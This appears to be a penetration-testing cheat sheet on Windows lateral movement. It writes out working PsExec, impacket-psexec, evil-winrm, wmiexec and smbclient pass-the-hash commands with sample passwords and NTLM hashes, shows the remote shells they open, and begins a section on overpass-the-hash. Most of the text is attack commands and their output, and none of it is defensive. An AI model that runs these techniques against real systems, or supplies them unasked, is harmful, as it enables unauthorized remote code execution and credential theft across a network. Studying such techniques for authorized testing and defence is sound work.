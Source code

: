 #### PsExec (Impacket-PsExec)

In order to misuse this tool for lateral movement, a few requisites must be met. To begin, the user that authenticates to the target machine needs to be part of the Administrators local group. In addition, the _ADMIN$_ share must be available and File and Printer Sharing has to be turned on.

```shell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

From Linux:	`impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
#### Pass the Hash (Evil-winrm/wmiexec/smbclient)

```shell
kali@kali:~$ evil-winrm -i 10.129.200.63 -u administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

C:\>whoami
files04\administrator
```

```shell
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
files04\administrator
```

SMBClient: `smbclient \\192.168.50.212\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`
####  Overpass the Hash (abuse NTLM user hash to gain a full TGT)

With _overpass the hash_, we can "over" abuse an NTLM user hash to gain a full Kerberos _Ticket Granting Ticket_ (TGT). Then we can use the TGT to obtain a _Ticket Granting Service_ (TGS). To demonstrate this, let's assume we have compromised a workstation (or server) that _jen_ has authenticated to. We'll also assume that the machine is now caching their credentials (and therefore, their NTLM password hash).


[192.168.50.73]: PS C:\Users\jen\Documents> whoami